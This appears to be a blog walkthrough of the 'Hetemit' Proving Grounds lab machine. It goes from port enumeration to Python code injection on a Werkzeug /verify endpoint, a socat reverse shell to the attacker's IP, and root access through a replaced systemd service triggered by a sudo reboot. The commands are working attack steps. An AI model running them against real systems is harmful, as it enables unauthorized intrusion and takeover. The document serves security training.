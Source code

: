 ```yaml
---
layout: post
title: PG | Hetemit
subtitle: Hetemit - The Goddess of Destruction
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-30 06:11 EDT
Nmap scan report for 192.168.235.117
Host is up (0.015s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.167
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 b1:e2:9d:f1:f8:10:db:a5:aa:5a:22:94:e8:92:61:65 (RSA)
|   256 74:dd:fa:f2:51:dd:74:38:2b:b2:ec:82:e5:91:82:28 (ECDSA)
|_  256 48:bc:9d:eb:bd:4d:ac:b3:0b:5d:67:da:56:54:2b:a0 (ED25519)
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
|_http-server-header: Apache/2.4.37 (centos)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
18000/tcp open  biimenu?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 3102
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <title>Action Controller: Exception caught</title>
|     <style>
|     body {
|     background-color: #FAFAFA;
|     color: #333;
|     margin: 0px;
|     body, p, ol, ul, td {
|     font-family: helvetica, verdana, arial, sans-serif;
|     font-size: 13px;
|     line-height: 18px;
|     font-size: 11px;
|     white-space: pre-wrap;
|     pre.box {
|     border: 1px solid #EEE;
|     padding: 10px;
|     margin: 0px;
|     width: 958px;
|     header {
|     color: #F0F0F0;
|     background: #C52F24;
|     padding: 0.5em 1.5em;
|     margin: 0.2em 0;
|     line-height: 1.1em;
|     font-size: 2em;
|     color: #C52F24;
|     line-height: 25px;
|     .details {
|_    bord
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/1.0.1 Python/3.6.8
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 297.05 seconds
~~~

## FTP (TCP/21)

After connecting anonymously I was unable to view any files on the FTP server

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ ftp anonymous@192.168.235.117
Connected to 192.168.235.117.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
~~~

## HTTP (TCP/80)

The web server on port 80 is displaying an Apache HTTP Test Page and after enumerating the website I could not find information or vulnerabilities that could lead me to a foothold

![Hetemit](/assets/img/HetemitPG(1).png)

## SMB (139, 445)

The SMB server revealed a restricted share named 'Cmeeks' which looks like a username for an account on the target

![Hetemit](/assets/img/HetemitPG(2).png)

## HTTP (TCP/18000)

The web server on port 18000 is hosting a web app behind a log in page, after trying default credentials and attempting to register an account there was no success in navigating deeper into the website as the registration proccess required an invite code as shown below

![Hetemit](/assets/img/HetemitPG(3).png)

## HTTP (TCP/50000)

The web server on port 50000 is running Werkzeug httpd 1.0.1 (Python 3.6.8) which is an interface to integrate python code into a web application.

The initial webpage displays two sub-directories/pages /generate and /verify which seems like a back-end system for code generation for the Registration system on port 18000.

![Hetemit](/assets/img/HetemitPG(4).png)

The /verify page displays a {code} variable, using a curl POST request I was able to inject data into the code variable which was executed by the web server

![Hetemit](/assets/img/HetemitPG(5).png)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ curl -X POST http://192.168.235.117:50000/verify --data "code=1*5"
5  
~~~

As the web server is running Python I created a python-based reverse shell using the Python utility os.system() to execute shell commands

Start Listener

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ nc -nvlp 21
listening on [any] 21 ...
~~~

Execute python reverse shell

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ curl -X POST http://192.168.235.117:50000/verify --data "code=os.system('socat TCP:192.168.45.167:21 EXEC:sh')"
~~~

And I recieved my initial foothold as the user 'cmeeks' we found earlier via SMB!

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 21
listening on [any] 21 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.235.117] 55190
whoami
cmeeks
~~~

# Privilege Escalation

I began enumerating for Privilege Escalation by running linpeas and identified a service pythonapp.service our user has write permissions over

![Hetemit](/assets/img/HetemitPG(6).png)

The pythonapp.service as shown below is executing restjson_hetemit in the context of the User cmeeks and is executed via 'Restart=on-faliure' so requires a device reboot to execute

![Hetemit](/assets/img/HetemitPG(7).png)

I created a malicious version of pythonapp.service on my attack machine with the assistance of [this](https://alvinsmith.gitbook.io/progressive-oscp/untitled/vulnversity-privilege-escalation) reverse shell service payload for Privilege Escalation, the malicious service runs the service in the context of the 'root' user and executes a reverse shell

![Hetemit](/assets/img/HetemitPG(8).png)

I transferred and replaced the current pythonapp.service on the target machine with the malicious pythonapp.service

~~~shell
sh-4.4$ curl http://192.168.45.167/pythonapp.service -o pythonapp.service
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   200  100   200    0     0   5882      0 --:--:-- --:--:-- --:--:--  5882
~~~

I needed to find a way to restart the system to execute the service, and after checking our current users sudo permissions I found it had sudo permissions over /sbin/reboot

![Hetemit](/assets/img/HetemitPG(9).png)

I started my netcat listener for the reverse shell on port 18000

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ nc -nvlp 18000
listening on [any] 18000 ...
~~~

I then rebooted the system

~~~shell
sh-4.4$ sudo /sbin/reboot
~~~

After a few seconds I recieved my reverse shell as root!

~~~shell
┌──(kali㉿kali)-[~/Desktop/Hetemit]
└─$ nc -nvlp 18000
listening on [any] 18000 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.235.117] 40820
bash: cannot set terminal process group (1213): Inappropriate ioctl for device
bash: no job control in this shell
[root@hetemit /]# whoami
whoami
root
~~~